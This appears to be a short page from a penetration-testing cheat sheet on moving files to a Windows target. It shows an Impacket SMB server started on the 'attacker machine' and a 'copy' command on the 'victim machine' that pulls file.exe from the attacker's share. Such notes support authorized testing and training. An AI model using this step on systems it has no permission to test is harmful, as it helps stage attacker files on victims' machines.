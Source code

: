 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Transferring files

## Windows

### Impacket-smbserver.py

```bash
smbserver.py <share> /path/to/file    #attacker machine
copy \\$IP\<share>\file.exe    # victim machine
```
